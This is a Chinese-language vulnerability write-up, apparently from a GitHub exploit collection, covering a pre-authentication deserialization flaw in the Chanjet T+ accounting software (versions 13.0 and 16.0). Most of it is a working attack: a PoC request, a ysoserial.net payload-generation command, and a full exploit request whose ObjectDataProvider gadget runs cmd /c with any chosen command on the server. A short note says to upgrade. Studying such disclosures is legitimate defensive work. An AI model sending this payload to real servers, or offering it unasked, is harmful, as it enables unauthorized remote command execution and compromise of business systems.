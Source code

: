 # 

# 用友 畅捷通 T+ 前台远程命令执行漏洞 QVD-2023-13615

## 漏洞描述

由于用友畅捷通 T+前台存在反序列化漏洞，恶意攻击者成功利用此漏洞可在目标服务器上执行任意命令。

## 漏洞影响

```
T+13.0
T+16.0
```

## 漏洞复现

poc

```
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: your-ip
X-Ajaxpro-Method: GetStoreWarehouseByStore
 
{
  "storeID":{}
}
```

使用ysoserial.net工具构造payload

```
./ysoserial.exe -f JavaScriptSerializer -g ObjectDataProvider -c "执行的命令"
```

exp

```
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: your-ip
X-Ajaxpro-Method: GetStoreWarehouseByStore
 
{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
        "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "StartInfo": {
            "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "FileName":"cmd", "Arguments":"/c 执行的命令"
        }
    }
  }
}
```

## 漏洞修复

目前官方已修复该漏洞，受影响用户可以升级更新到安全版本。官方下载链接：https://www.chanjetvip.com/product/goods/
